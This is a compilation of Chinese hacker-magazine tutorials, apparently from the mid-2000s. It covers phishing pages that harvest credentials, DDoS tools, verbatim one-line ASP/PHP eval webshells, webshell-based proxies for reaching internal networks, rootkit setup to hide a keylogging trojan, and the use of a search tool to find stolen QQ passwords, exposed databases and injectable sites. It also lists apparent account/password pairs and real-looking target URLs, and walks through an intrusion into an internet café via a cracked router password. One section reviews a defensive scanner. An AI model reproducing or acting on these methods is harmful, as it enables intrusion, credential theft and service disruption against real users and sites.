登录以后是一个繁体页面，在“GeoCities”里找到“访客名册”（如图4）。现在我们终于知道盗号的原理了：想使用“访客名册”，先要开通个人网页，然后在设置里填写名册名称、简介、背景图等内容，再设置留言显示数量、分隔线和隐私权限。若设置为公开，所有人都能看到留言；设置为私人则更安全。

在跳出的页面中会提示“访客名册已成功更新”，并给出对应网址。既然有了访问留言地址，那我们也来访问一下刚刚盗号的网站吧。对照页面源码中的参数后可以发现，对方通过伪装页面诱导玩家输入账号信息，再把输入内容作为留言提交到访客名册里，从而完成“钓鱼”。

现在只会玩游戏的电脑盲太多了，才会导致轻易受骗，希望各位X的小菜们不要上当。看过这个简单的盗号网站后，如果觉得页面太粗糙，还可以继续加工：在自己做的网页上右键“查看源文件”，把文件保存到本地后再修改。

## 傻瓜黑客的 HackGP 工具箱

chenggong


作为一个菜鸟，无论是种植木马还是入侵服务器都需要使用工具。由于黑客工具比较多，有时为了找一个工具找遍全盘，真是烦人！许多黑客软件已被杀毒软件列为病毒，稍不注意就被杀毒软件消灭了，给我们带来了许多麻烦，因此黑迷们特别需要一个黑客工具箱。在05年12期的X档案已经介绍了一个工具箱——“非君子迷你器”，菜鸟们使用后都感觉好用。今天我再给黑迷们带来一个工具箱——HackGP工具箱，虽然功能上不比“非君子迷你器”强大，但它弥补了“非君子迷你器”的不足之处，软件大小为7.9M，工具比较齐全，可以放到黑迷们的电脑中备用。HackGP工具箱共分为常用工具、攻击工具、扫描工具等5个模块，下面我们分别来看各项功能。

#### 一、常用工具

局域网查看工具：它不仅可搜索局域网的计算机和共享资源，还可搜索、查找广域网上的计算机和共享资源。使用方法很简单，点“搜索计算机”按钮程序可自动搜索局域网和广域网的计算机，点“搜索共享资源”按钮可搜索局域网和广域网的共享资源，搜索速度很快。搜索结果如图1，可以看到搜索到不少共享资源，双击搜索到的共享资源可打开，也可点“查找文件”按钮查找需要的文件。


图1

点击“远程管理”按钮还可自动搜索可控制的计算机，当然被控计算机必须是Windows 2000并且有弱口令。findt2005（木马辅助查找器）是大名鼎鼎的“灰鸽子”作者葛军写的杀查木马的好工具，如图2，具有查看端口、扫描可疑进程等功能。特别是“进程监控”选项里有个“自动扫描可疑程序”功能，对不熟悉进程的菜鸟们来说真是太方便了。它可自动扫描出系统中运行的可疑进程，对常见木马的判断还是很准确的，瞧！“HackGP工具箱”运行后也扫描出来了。“绿鹰PC万能精灵”是个功能很强大的杀查木马的软件，如图3，启动后自动监控系统进程，提示你的系统是否安全。尤其“QQ精灵”中的“绿鹰QQ聊天超级伴侣”更是妙语连珠，还可将可怜位图（BMP）文件转换为ASCII码图片（TXT）文件，为我们和MM聊天带来了超炫的感受，具体效果如何你可以试试看。“Windows精灵”“IE精灵”分别具有优化Windows的各项设置、修复IE的设置等功能，留给菜鸟们自己去体验去吧！


图2

#### 二、攻击工具

共有“最新打击冰盾盗版工具”“阿拉丁UDP攻击器”“冬日-syn攻击器”3个攻击工具。最新打击冰盾盗版工具，程序启动后如图4，它可以伪造任意网段的原IP地址进行DDOS攻击，主要是攻击安装“冰盾防火墙”的主机……“阿拉丁UDP攻击器”是一个UDP洪水攻击软件，攻击速度和威力较稳定，甚至还可攻击网游私服和CS服务器。需要注意的是此类工具具有较大破坏性，可能造成服务器崩溃。

#### 三、扫描工具

“挖掘鸡”是一个寻找肉鸡的功能强大的工具，主要搜索别人挂马的页面和默认数据库，尤其搜索论坛数据库既快又方便。它可以自定义搜索的文件名、路径、特征码和关键词……双击后可直接下载数据库。老兵的网站安全检测工具、旁注工具、注入工具等也有介绍。


最后的2个模块“加壳脱壳”和“加密解密”都是用来伪装木马的。“北斗压缩”“花花添加器”“ASP代码加密大师”等被提及。随后提到“HackGP工具箱”和“非君子迷你器”等工具箱版本与升级问题。

## 千渡助你隐藏IP

普罗米修斯[TAT]

许多朋友在玩黑的时候需要隐藏自己的IP，以防被入侵的服务器追踪。一般手段是使用代理服务器，但很多时候不便于使用代理。文中引出“千渡互连”作为解决互访和速度问题的软件。

#### 一、安装过程

目前国内互联网主要由两大ISP运营：网通和电信。用户跨网访问时常出现速度慢甚至无法访问的问题。文中说明可在官网下载“千渡互连”，解压后有两个程序，双击“一号服务器安装程序.exe”进行安装，安装后可在网络连接中查看。


### 傻瓜黑客


双击此图标打开千渡连接程序，用户名暂时填写默认的VPN，密码123456，然后点击“连接”，就可以登录了，如图3。

这时我们打开www.ip138.com来查看自己的IP地址，可以发现自己的IP已经变成了千渡的出口IP 211.140.138.40了，查看此IP的归属，可以知道是浙江省金华市移动的，现在就可以放心地大展拳脚了，如图4。


用户可以接入千渡所在服务器的VPN，然后统一使用此VPN来访问其他网站。也就是说，通过本机访问任何网络，都是向千渡的出口服务器发送请求，并由此服务器负责到目标网站取回相应内容，然后传送给客户，因此相当于我们使用了代理服务器来访问网络。

> ### 小知识：什么是VPN
> VPN的英文全称是Virtual Private Network，翻译过来就是“虚拟专用网络”。顾名思义，虚拟专用网络我们可以把它理解成是在网络中架设起来的公共专线。它可以通过特殊的加密通信协议在连接在Internet上的位于不同地方的两个或多个企业内部网之间建立一条专有的通信线路。就好比是架设了一条专线一样，但它并不需要真正地去铺设光缆之类的物理线路。这就好比电信局申请专线，但是不用给你铺设线路的费用，也不用购买路由器等硬件设备。VPN技术是信息安全领域的重要技术之一，目前在交换机、防火墙设备及Windows 2000等操作系统中都支持VPN功能。总之，VPN的核心就是在利用公共网络建立虚拟私有网。

#### 二、原理解析

仅仅知道一个软件可以做什么是不够的，我们来探询下这个软件的原理。千渡互连其实是一个拨号程序，通过此拨号程序可以拨入千渡所在服务器的VPN……


lis0[0x54.org] & lake2[0x54.org]

随着脚本入侵的推广和日益平民化的入侵手法，以及大家对脚本安全的关注，大型漏洞被人发现出来。脚本热早已经是不争的事实了，各式各样的脚本木马推出新版的速度越来越快，从老牌的Icx的海阳顶端木马到angle的phpspy几乎成了脚本入侵中的首选。从早期单纯的S型木马到C/S型木马，无不在说明脚本热的升温。到现在ASP脚本中的`<%eval request("a")%>`和PHP脚本中的`<?eval($_POST[a]);?>`可以说成了一种经典。这种木马样式的改变是由于管理员水平的提高、杀毒软件查杀能力和技术的发展形成的。从早期单个的S型脚本木马到植入型再到现在的C/S型，但唯一没有变化的就是服务器上留有的日志。从日志中可以发现植入脚本木马的文件（哪怕是你修改了文件的时间）和你的IP（虽然地球人都知道）。

首先从日志出发，如果你将小马植入某文件中，由于我们是采用POST来让小马执行我们提交的代码，因此不会像正式访问的用户那样是GET，且日志记录中的对比如图1。虽然从日志中不能一眼看出问题，但细心的管理员仍会发现你植入的小马。并且随着法律的逐步健全，你留下的IP地址可能让你很难受。在这种前提下，proxy开始被广泛使用了。但是要保证一台肉鸡稳定而且不发生常常连接不上的现象，搞这样的肉鸡费力而且麻烦，要做很多工作才能不让管理员发现，而且连接时的端口问题和进行大量数据连接时netstat -n下将会很难堪。这时候得请出脚本中的proxy，到目前本人感觉这个方法不仅简单，而且搞这样的一个proxy也很实用。

##### 1. Php-Proxy

虽然phpspy中有这样的一个功能，但是它算不上真正意义的proxy。其实实现PHP的proxy很容易，在国内国外的很多免费空间都支持PHP脚本而且申请也很容易，只要将这个脚本放上去就可以了（最好选择国外的）。加上目前一些PHP写的论坛和各大系统的漏洞，找一个弱的PHP架构做proxy应该不会很难吧。下面就是一个演示（图2），我们在本地通过放在网马上的phproxy来访问目标机器上的PHP后门，而且有时速度比在本地直接访问要快。


或者 lion 写的那个很好用的端口转发程序啊，可以说极其费劲，而且很容易坚持不下来，直到最后的放弃。

有时候服务器不容许外部 IP 连接其 21 端口，这时候就用到了下面要介绍的 webftp（Ftp Web-Client Powered by upsdn.net）；有了它我们就可以方便很多。比如某 BT 服务器 21 端口不容许外部 IP 连接，我们通过 webshell 上传 Ftp Web-Client，然后使用 Ftp Web-Client 就能正常连接了，如图4、图5。


图2

##### 2. Cgi-Proxy

cgi（这里的 cgi 是狭义的概念）脚本。国内除了留做论坛是 cgi 来写的外，我们也很难见到 cgi 脚本写的东西了。倒是很多 exploit 是用 Perl 写的，可见这种语言的强大。但是国内不少空间也支持 cgi，不少网站只是用了 asp 的或者 php 的。加上很多人想到 Linux 内鸡感觉没什么意思，但是很多 Linux 服务器都支持 cgi 脚本^^。这样一来找能支持 cgi 脚本的肉鸡也不是很困难了吧。

这里用的是一个老外写的脚本（写于 2002 年，安全焦点上有下载，不知道大家注意过没有），CGIProxy 2.0.1（HTTP/FTP Proxy in a CGI Script）；下面就是演示，通过 cgiproxy 访问内鸡上的 webshell，如图3。


图4


图5

效果很不错吧。使用 proxy 脚本进一步拓宽了我们入侵的范围，将入侵的触角可以方便地深入到了内网，而且我们只要有一个 webshell 就可以实现。

上面提到的几个脚本程序几乎都有 proxy 的味道，由于走访问脚本，所以植入 proxy 的肉鸡也不会有很大的负担，隐蔽性也不错。相信随着脚本技术的发展，各式各样其他语言的 proxy 也将慢慢浮出水面（lake2 也在悄悄开发 aspx 脚本的 proxy 哟）。希望上面所提到过的东西能帮得上你的忙，使你的入侵更有味道。

（本文中所涉及到的 PHProxy、CGIProxy、webftp 和 3389-WEB 已收录到光盘中）


图3

写到这里再啰嗦点，不少服务器设置极其 BT。在我们入侵某内网的时候，往往要通过我们敲掉的服务器来实现，但是很多情况下我们却是 guest 的权限，很是郁闷。提权啊，装 http tunnel……


## 狂绝下载者程序

玩过木马的朋友都知道，现在的木马功能越来越多，个头也越来越大。比如最常用的鸽子，不加壳压缩的话足足 700 多 K，即使加壳压缩也有二三百 K。做网页木马的话别人一打开网页就失去响应半天，傻瓜才不怀疑呢。

所以下载者就出现了，一般的下载者只有 10K 左右，这对于制作网页木马来说够小了。

当你执行下载者之后，它就会到指定的地址下载木马程序并且执行，而且这一切都是在后台执行，完全不会被察觉，我们只能这样眼睁睁地任人宰割吗？

前些天火狐技术联盟的 Kendy 在网上发布了一个下载者监视器，有了它我们就不用怕下载者了。作者是这样描述程序的：本程序可以监视无插入进程、DLL 插入进程和代码直接插入进程……

### 傻瓜黑客


图1、图2展示了下载器相关界面与配置。文中说明若为无插件下载器会显示下载路径，若为插件注入类会显示注入进程路径，并开始对其能力进行测试。


文章中段介绍在打开下载者监视器后，点击“开始监视”并执行下载动作，监视器会报警提示；对注入 Explorer 或 IE 的下载行为可选择“否”进行拦截，并可在日志中查看记录。


结论部分指出下载者监视器效果明显，可有效应对相关下载木马行为，并附带说明文中涉及工具的收录信息。

### 巧妙获得收费图铃

yizhigu kinki

开篇介绍：很多用户希望获取手机图片和铃声，但又不愿占用过多存储或付费，因此文中给出一种 DIY 思路，并提示相关方法仅作技术交流。

#### 一、图片的获取方法

正文说明可通过网页浏览和抓包方式定位手机图片真实地址。先在页面中查看图片属性，获取表面链接；若被脚本或站点机制隐藏，则需进一步分析。


文中进一步介绍使用 WSE 等抓包工具，在图片发送页捕捉请求，从请求路径中还原真实图片地址。通过访问真实地址即可保存图片，并可扩展到批量提取场景。难道要我们对着页面并且根据抓包得到的地址一个一个保存图片？我是没这个耐心的，下面就告诉大家如何批量获得手机图片。我们知道 IE 具备一个缓存功能，就是把页面里的信息保存在本地，再次访问的时候就可以增加浏览速度，图片当然也不例外。废话少说了，我们利用一个小工具：临时文件双剑客。首先打开 internet 选项，在常规项目下删除所有临时文件（图3）。


打开临时文件双剑客，选择“临时文件获取”，选择“以下所选”并且勾上 jpg 格式，这里最好勾上“处理后将临时文件删除”（图4）。然后我们就慢慢地浏览自己喜欢的图片页面，最后点“开始”就会把所有浏览过的图片文件保存，默认是临时文件双剑客所在目录下的 files 文件夹里。我们打开这个文件夹看看，是不是刚才浏览过的页面里存在的所有图片都乖乖地躺在这里了？最后删除一些不需要的，就能批量得到可爱的手机图片了（图5）。


#### 二、铃声我做主

这里还是以新浪进行说明，我们先用 WSE 进行监视，打开一个铃声地址就进入试听页。这里我抓取到的大城小爱的铃声地址为：http://image2.sina.com.cn/sms/sinarc/preview/25/25108/25108276.wma。和其他多数铃声站一样，抓包得到的文件都是 wma 格式的，而大多数手机不支持这个格式，所以我们还需要经过一个转换。这里我推荐一个工具 Power MP3 WMA Converter，我们添加 wma 文件的铃声后转换为 mp3 格式，再传输到手机上就可以作为铃声了。

难道铃声就非要别人的？如果自己能制作铃声不是很爽么？把自己喜欢的音乐甚至自己的歌曲作为铃声，让我们也做一回 DIY 潮人吧。下面让 kinki 为大家介绍这个方法，同时感谢 kazama 提供思路。这里我们需要用到的制作软件是 cool edit，一款非常著名的音频编辑软件。我们安装完毕后打开 cool edit 汉化版，在音轨区域插入需要制作的音频文件（图6），点左下的三角符号进行播放，确定好你要剪辑到的时间，选中不需要的音轨区域，右键菜单下剪切就可以为你保存了。


如果在这个模式下进行剪辑不方便，可以按 F12 切换到波形编辑界面，方法是相同的，只是你可以掌握好具体时间。最后我们需要做的就是在保留的音频波形下右键调整音频块的音量，为了保证铃声的大小合理性，我建议把普通的 mp3 歌曲的音块调节到 6.0 左右（图7）。最后只需要在音轨下右键菜单或者在文件菜单下把编辑保存为文件就可以了。我们还可以利用这个工具录制自己的歌曲并且结合一些插件做效果，具体方法大家在网上查阅。


（本文中所涉及到的 WSE、临时文件双剑客和 Power MP3 WMA Converter 已收录到光盘中）


### 傻瓜化配置黑客守卫者

玩过木马的人都知道，“黑客守卫者”是一款异常强大的内核级后门，也就是大家俗称的 rootkit。它可以用于隐藏指定的文件、文件夹、端口、注册表、服务名等，很多人都通过它来保护自己的木马后门，以免被管理员所发现。可是由于以前的“黑客守卫者”其全英文的配置使很多小菜使用不便，正巧我在网上发现一款相关的配置文件生成器，下面我就为大家演示一下该配置文件生成器的使用方法。

为了方便演示，让大家更加直观地了解到“黑客守卫者”的强大功能，这里首先来配置一个黑洞2005的服务端程序。

我们知道，黑洞2005虽然是一款非常优秀的木马程序，但是其在服务端程序的隐藏上并没有使用过多的隐藏技术，而是采用 AFXRootkit2005 来对其进行隐藏，今天我们就是要用“黑客守卫者”来取代 AFXRootkit2005，完成相应的服务端程序隐藏。下面是我配置好的木马信息记录，我们来看一下：

- 程序安装名称：test.exe
- 安装目录：windows
- 服务端程序端口：44444
- 服务名称：Black Hole2005 Professional
- 显示名称：Black Hole2005 Professional
- 服务描述：Black Hole2005 Professional

服务端程序运行以后，就会按照上面的配置进行安装并运行。服务端程序运行后，除了在 windows 目录生成 test.exe 外，还会生成一个用于键盘记录的 getkey.dll 文件，知道了黑洞的运行规律后，就可以开始配置“黑客守卫者”。


运行“守卫者配置器”，首先在“隐藏文件/文件夹”标签中设置需要隐藏的服务端程序文件，即 test.exe 和 getkey.dll，在窗口中分别输入这两个文件名，记住每行只能输入一个，并且每个选项都支持通配符（如图1）；切换到“隐藏进程”标签，在窗口输入服务进程的名称，由于黑洞2005并没有采用线程插入技术，所以进程为 test.exe；接着点击“隐藏服务”标签，在上面已经介绍过服务端程序的服务，这里就设置为 Black*（如图2）；再点击“隐藏端口”标签，由于黑洞采用 TCP 协议进行数据的传输，所以在“TCP 端口”选项中添加一个 44444 端口，每个端口之间用英文逗号进行分隔（如图3）；对于黑洞木马来说，“隐藏注册表”标签中没有什么可以设置的了；现在选择“跟随启动”标签，在此可以设置一些跟随后门程序一起启动的程序，这样就可以更加方便一些恶意程序的启动；再点击“后门设置”标签，这些都是关于“黑客守卫者”的设置内容，除了“后门连接密码”选项外，小菜最好不要进行随意的设置（如图4）；最后点击“生成配置”标签，点击其中的“生成配置”按钮即可生成设置好的配置文件。

后门配置完成后，我们首先将服务端程序安装到虚拟机中并运行，当服务端程序上线后，通过“文件管理”选项将 hxdef100.exe 和 hxdef100.ini 两个文件上传到远程计算机的任意目录，然后运行即可。由于后门程序运行较慢，所以我们需要耐心地等待。当后门程序安装完成后，我们来查看服务端程序的进程、端口、文件等，发现都无法检测到了。关于“黑客守卫者配置器”就为大家介绍到这，以后大家就再也不怕我们的服务端程序被发现。

### 挖掘宝典

曾云好

这篇文章主要是介绍一下挖掘鸡的运用。在联网试攻击当中我最喜欢的就是挖掘鸡。它就是利用关键字，然后在网络当中查找出符合这些关键字的 URL 地址。其原理和 google hacking 相类似，都是利用关键字查找有漏洞的网址，但是挖掘机会自动提取出那些 URL 地址来，比用 google hacking 更加方便，而且还可以找出一些搜索引擎找不到的 URL 地址。

挖掘机主要是检测以缺省路径存在的孤立页面，这样的页面一般没有和其他页面进行连接，所以搜索引擎一般是很难找到的，目前挖掘机已经发展到了 2.2 版本。只要攻击者构造一些精美的语句出来就可以大规模地入侵网站，它的界面如图1所示。这个工具的用法在帮助当中都有，这里不详细讲解了，今天主要讲如何更好地运用。


- 1. 盗 QQ：现在盗 QQ 的软件一般都支持两种发送密码的体制（如何拉 QQ 大盗），一种通过邮箱，另一种通过 WEB。很多人在用 WEB 接受 QQ 密码的时候，喜欢把接受 QQ 的文件名设为 QQ.txt 或者 qq.txt。所以查找一些含有 QQ.txt 或者 qq.txt 的 URL 地址，那么很有可能找出别人辛辛苦苦偷到的 QQ 了（图2）。挖掘内容如下：
  - 文件名：qq.txt 和 QQ.txt
  - 目录组：/qq.txt 和 /QQ.txt
  - 特征符：password
  - 关键字：欢迎 欢迎光临 个人 Welcome

- 2. 下载数据库：很多网站没有把默认的数据库地址改掉，比如 DVBBS 的默认数据库是：dvbbs7.mdb。


| 账号 | 密码/信息 |
|---|---|
| 1234567 | password |
| 32840647 | 13834689277 |
| 278788380 | sunhao123 |
| 24740503 | 99541292 |
| 229077872 | 13832879468 |
| ... | （多行账号/密码样式） |


```
http://www.tr.gz.cn/bbs/data/dvbbs7.mdb
http://www.rrsport.com/data/dvbbs7.mdb
http://bbs.7cqa.com/data/dvbbs7.mdb
http://www.fosun.net/bbs/data/dvbbs7.mdb
...（大量 dvbbs*.mdb URL 列表）...
```

默认数据库名我们就可以查找出没有改掉默认数据库的网站地址了。还是用 DVBBS 来举例吧，挖掘内容如下：

- 文件名：dvbbs6.mdb、dvbbs7.mdb
- 目录组：/data、/databackup
- 关键字：dvbbs 动网论坛 欢迎

存在这样漏洞的网站非常地多，请看图3。大部分都可以下载（如图4）。


- 3. 暴库漏洞：暴库一般是加上 %5c 或者 inc 等一些符号让系统在调用数据库时出现错误，然后返回的数据中提示调用数据库出现错误，错误里面一般带有数据库的绝对路径。前不久许愿版出现了暴库漏洞，那就先用挖掘鸡把许愿版找出来。
  - 文件名：wish.asp
  - 目录组：/wish
  - 关键字：许愿版

找出了一些许愿版的网站（图5），直接访问向暴出它的数据库（图6）。


- 4. 查找 webshell：目前有很多 webshell 都有自己的名字和登录密码。但是很多人在上传木马的时候并没有改默认的名字和密码，所以就可以利用这些信息来查找这些 webshell，然后改掉密码，那么就不费力气地得到一个服务器，很爽吧。
  - 文件名：wei.asp
  - 2006.asp
  - lcx.asp
  - LP.asp
  - newhjzf.asp
  - newasp.asp
  - 2005red.asp
  - 2005.asp
  - 2005Gray.asp
  - phpspy_2006.php
  - 目录组：/
  - 关键字：登录 Login 密码（不同的木马有不同的关键字）

等我喝完一杯可乐回来以后，就找到好多了（如图7）。


图7

- 5. 查找登录口、后台：
  - login.asp
  - admin.asp
  - denglu.asp
  - manager.asp
  - guanli.asp
  - 目录组：/
  - 关键字：管理 登录 后台

可以轻易找出网站的后台地址，而且网页居然把密码都列举出来了（如图8）。其实就算没有密码，还是可以利用默认密码、后台过滤不严格等漏洞来登录后台的……


图8

- 6. 查找注入漏洞：要查找注入漏洞首先要知道哪个系统有注入漏洞，然后通过独一无二的关键字进行挖掘。例如下面常见的注入：

文件名：asp?id=  
asp?newsid=  
asp?page=  
asp?Article= 等等

目录组：/

关键字：自己构造，只要网页正文或者标题上有的就可以了。

```
http://www.ctrlcar.com/movie.asp?id=171
http://duruhu.com/movie.asp?id=138
http://www.xbds.com/movie.asp?id=587
http://www.yqto.cn/movie.asp?id=687
http://video.xcsw.cn/movie.asp?id=38
...（大量 URL 列表）...
```

图9

其实还有很多这样的类似漏洞，比如上传漏洞等等。我们都可以利用它来找。其他的漏洞攻击方法也都是大同小异，方法和原理都是一样的。其实挖掘鸡这个工具是很简单的，正是因为它简单，所以才给了我们很大的发挥空间……


图10

挖掘鸡的缺点就是只能够挖掘没有链接关系的页面，一定程度上限制了它对网站的渗透深度……如果要查找没有链接关系的页面，首选就是挖掘鸡，虽然 google hacking 也可以达到这个效果……


### 雷客图 ASP 站长安全助手

当前 WEB 技术应用十分广泛，所以黑客盯上了 WEB，于是就带来了层出不穷的 WEB 攻击。网站不论是被黑还是被挂马，都将严重影响网站的形象，站长们应该多关注网站的安全……

雷客图 ASP 站长安全助手（以下简称雷客图）是一个维护网站安全的 ASP 程序，当前最新版本是 1.2，其功能包括 ASP 木马查找、数据库安全保护、文件篡改检查、可疑文件搜索、SQL 注入防御等。

### 1．预览

把程序直接上传到网站的一个目录，然后浏览器访问就可以了，默认的登录密码是 admin888，站长登录之后记得马上更改。图1所示的是它的主界面……下面让我们来看看雷客图的各个具体功能。

### 傻瓜黑客


图1

#### 2. 查找 ASP 木马

ASP 木马是黑客用于控制 WEB 的一种 ASP 程序，由于其对网站的危害大，所以杀毒软件也把它列为查杀对象。因为杀毒软件是依靠特征码，而且 ASP 编写方式灵活多样，所以往往可以通过修改代码的方式躲过杀软查杀。

但是如果 ASP 木马遇上雷客图，那就没那么幸运了。雷客图是我见过的超有效的对付 ASP 木马的东东，嘿嘿，牛皮不是吹的，到底效果如何，各位看官跟我一起来试试咯。

图2所示是雷客图的查找 ASP 木马功能界面。我们只需要填写查找相对路径（相对网站根目录）就可以了，这里我们检查整个网站，所以路径那里填“\”。等待一定时间后，检查完毕出现报告界面（图3）。


图2


图3

呵呵，报告说了，一共检查文件夹2个，文件28个，发现可疑点15个，红字显示的就是严重可疑的哦，站长需要特别注意。如图3中第一个 myown\2006.asp 文件可疑之处是被加密了。

我们通过链接访问该文件，你将看到图4所示界面，呵呵，这就是大名鼎鼎的海洋顶端 ASP 木马。我这个 ASP 木马经过牛人的修改已经躲过了杀毒软件，可惜被雷客图查出来。


图4

发现的可疑点站长都可以这样直接访问链接，很多木马就暴露了。还有一种 ASP 木马是直接嵌入到正常 ASP 文件中的（比如一句话木马），报告会说“该文件被×××包含执行”（图5），这时站长不能删除该文件，而是应该修改正常文件中被改动的部分（最简单的小法就是用备份的文件替换回去）。有的后门会使用 eval 一句话，因为 JavaScript 里面也有 eval 关键字，所以难免产生误报，这时候就要站长查看文件代码或者根据文件创建修改时间来判断了。


图5

#### 3. 可疑文件搜索

黑客入侵网站之后不仅仅只留下木马，而且还有可能修改其他文件，比如在首页添加恶意代码。这个时候我们就需要可疑文件搜索功能了。我们可以根据查出的 ASP 木马的创建时间发现黑客到访的时间，然后搜索那天新建的和被改动过的文件，逐个排查很快就可以消除黑客动过的文件。图6就是查找网站5月18日有异的所有类型文件。


图6

还有一种情况就是不清楚修改日期，但是知道被添加的恶意代码内容。那么修改日期一项就填 ALL，查找内容项就填恶意代码，然后所有包含该内容的文件就会被列出来。这里还要提醒大家注意，很多情况下文件创建修改时间是可以人为修改的。

### 4．文件篡改检查

这个功能就是在确保安全的情况下把网站指定类型文件的大小、修改时间等信息保存到一个文件，用于以后做对比，及时发现异常情况。图7就是提取信息界面。提交之后就会下载一个文本文件并保存到本地计算机，用于以后的对比。图8是校验的界面，需要先将以前提取信息的文件上传到黑客图的目录里。图9是报告。


### 5．关于升级

最新的黑客图采用了自动升级，在辅助插件里面有个自动升级插件，它将自动到官方网站获取分析升级信息、自动下载升级文件。这一点大大地方便了懒人站长。当然，该功能要求你的 WEB 服务端支持 XMLHTTP 组件才行。不过不用担心，一般的服务器都支持的。

### 6．其他功能

黑客图还有 SQL 注入防御、数据库保护等功能，限于篇幅就不详细介绍，具体的请各位自己去体验吧。安全是一把双刃剑，站长可以用黑客图来检查 ASP 木马，也可以作为扫出某些文件的 For Hacking 精简版本。以后留后门的兄弟要注意了，一不小心你的 WebShell 就可能被发现。最后希望作者继续给黑客图增加新功能，最主要的是千万不要忘了继续开发 For Hacking 版本。

> （本文中所涉及到的黑客图 ASP 站长安全助手已收录到光盘中）

## 通过流媒体蹭蹭蹭入侵网吧

黑侠（Black Mask）

我想现在有许多朋友都通过宽带路由器来拨号上网的吧，一来是觉得这样上网比较安全，二来又可以多台电脑共享一起上网。他们可能认为在这样的环境里上网已经很安全了，并且还会把系统还原等保护也给省去了。不过却给我们留下了机会（嘿嘿，偷笑中……）。

#### 一、破解宽带路由器密码

首先，打开“东凌 ADSL 密码终结者破解版”。在“扫描选项”里随便输入一个 IP 段（如“58.101.84.10—58.101.84.108”），然后点击“扫描”里的“开始”，如图1。


程序就开始查找并破解了，不一会儿，就有一台宽带路由器被破解出来了，IP 地址为 `58.101.84.*`，用户名是 `admin`，密码是 `xta52013`，赶快登录上去看一下吧！

### 二、设置虚拟服务器来端口映射

打开 `http://58.101.84.*` 输入用户名 `admin`，密码 `xta52013`，马上就进入主页面了。首先来看一下路由器的 DHCP 吧，看看内网有几台电脑是通过路由器来上网的，如图2。


内网的电脑不是很多，只有4台，不过玩玩也够了。图中的静态 DHCP 用户列表，是内网的用户将自己主机的 IP 和 MAC 地址绑定了；图中的动态 DHCP 用户列表，是内网的主机开机后由路由器的 DHCP 自动分配给它一个 IP 地址上网的。所以要考虑一个问题，静态 DHCP 用户列表里的主机，是事先绑定好的，我们不知道他们现在是否在线；但是动态 DHCP 用户列表里的主机目前是一定在线的。然后再打开“进阶设定”里的“虚拟服务器”，将静态或动态 DHCP 用户列表里的 IP 添加到虚拟服务器。先选中“激活”，在名称里可随便填写，这里输入一个“telnet”吧，个人 IP 地址 `192.168.0.2`，在个人的服务端口和公用的服务端口都填入 `23` 端口（即 Telnet 端口），“排程”最好选择“任何时间”，点击“执行”，如图3。然后继续再添加另一个 IP 和相应端口，注意在添加“个人服务端口和公用服务端口”的时候，千万不能将2个 IP 的端口重复起来设置，以免连接的时候出错，如图4。


前面打“√”的是我们添加的，接下来你也可以用工具对各个端口进行连接（记住连接的是公用端口哦），不过最好还是用扫描软件去扫一下，会比较方便些。打开“X-Scan”扫描软件，输入 IP：`58.101.84.*`，在扫描模块里，将“开放服务、SQL-server 弱口令”前打“√”，确定，再到端口相关设置里填入刚才在路由器上添加的那些公用端口，如图5。

然后开始扫描 IP，不一会结果就出来了，`192.168.0.2` 开放23，`192.168.0.55` 开放了1433端口。1433还是弱口令哦，爽吧。我事先将我本机用户 `administrator` 的密码清空，注销再登录，这样做是因为如果对方的 administrator 密码也为空，就能够通过 NTLM 验证。然后再 telnet 到 `58.101.84.*`（当你 `telnet 58.101.84.*` 的时候，虚拟服务器会自动将23端口映射到 `192.168.0.2` 的23端口上），就相当于 telnet 到 `192.168.0.2` 一样，一下子就进入了对方的系统盘符了哦，输入命令 `ipconfig`，如图6。


接下来，我想也不用多说了，大家各显神通吧！不过不要搞破坏哦……其实端口映射很多朋友在建立内网 WEB 服务器或 FTP 服务的时候用到过，每个方法都有它的两面性，重要的是，看你如何去运用。

> （文章涉及到的工具东凌 ADSL 密码终结者破解版已经收录于光盘中）

### 本地溢出到底有什么用

对于 Windows 的本地溢出漏洞，许多菜鸟都不怎么关心。这也难怪，因为他们根本就不清楚这些本地溢出应该用于什么场合。当然，关键在于它们本身显露没有什么积极之处。

- 当我们能够物理接触电脑，却发现自己的权限只是普通用户而非管理员时（这种情况在一些公司内部网经常存在），此时使用这些本地溢出漏洞就可以将自己的权限轻松提升为管理员。
- 并不是所有的远程溢出成功后得到的权限都是系统权限，倘若我们远程溢出后得到的只是普通权限的话，就可以用这些本地溢出程序进行权限提升。
- 我们知道，大多数 WebShell 都不是系统权限，因此我们可以使用别的工具先反向得到对方的一个 cmd shell，然后再进行权限的提升。这也是一种可行的方法。
- 这些工具往往出现得比较滞后，不要拿来直接使用，将其伪装成别的工具混淆后，发给别人运行，我们就会得到对方的 cmd shell，或者直接在对方的系统内添加一个管理员帐号。


### 如何用伪造网页钓鱼

#### 巧用同学录网页钓鱼

平时大家都常常收到来自各大网站的通知邮件，或者广告，或者重要提醒。由于寄件人都是安全的大站点，因此很多人都很信任这些邮件，直接打开邮件中的链接连接网站……殊不知，在这些邮件中也许就隐藏着危险，钓鱼者正等待着你上钩中招呢！

##### 一、“钓鱼”缘起

今天像往常一样打开电脑，连上网络打开 Foxmail 开始接收邮箱中的邮件，接收完毕后，一封重要邮件跃入我眼中——这是一封来自 ChinaRen（中国人）的校友录的通知邮件，提醒我有新同学加入校友录中了（如图1）。

最近常收到这类通知邮件，因此稍微留心了一下邮件的详细内容。看了看寄件人，是“mailmaster@chinaren.com”，收件人都是几个熟悉的同学的邮箱，看来没有什么问题。邮件内容是提醒我：“贵班有新成员加入，快去打个招呼吧！”。于是毫不疑心地点击了邮件正文中的“班级地址：”，直接连上同学录看看是哪个老同学加入了班级……


图2

点击浏览器菜单“文件”→“另存为”，在保存对话框中选择“保存类型”为“网页，仅 HTML”，文件名改为“class_index.jsp?classuuid=2815032345891178195.htm”，以便迷惑那些较为小心的用户（如图3）。保存了网页文件后，再双击打开检测保存的网页是否显示与原来的网页一样。


图1

相信许多朋友与笔者的做法没有什么两样，对这样的邮件毫不怀疑，十分信任邮件的内容。正因为如此，我在琢磨了一阵儿后，发现这样的邮件如果被某些恶意的人所利用，制作成网络钓鱼的诱饵的话，后果将会十分严重！因此，我模拟了一次利用邮件进行的网络钓鱼攻击，发现成功率真的非常高！

##### 二、保存“诱饵”网页

一般来说，钓鱼式攻击是通过伪造一个用户信任的网站，通过网页木马或表单提交记录用户在假网站操作，包括输入的账号和密码等，从而达到攻击用户的目的。在这里我们要假冒的当然就是 ChinaRen 的校友录网页了。

